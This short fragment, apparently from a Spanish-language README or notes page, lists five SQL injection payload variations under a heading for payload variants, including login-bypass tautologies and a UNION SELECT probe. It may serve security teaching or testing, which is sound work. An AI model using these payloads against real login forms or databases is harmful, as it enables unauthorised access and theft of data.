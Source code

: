 ### 🔁 Variaciones del payload

' OR 'a'='a' --
' OR 1=1 #
admin' --
' OR 1=1 LIMIT 1 --
' UNION SELECT 1,2,3 --
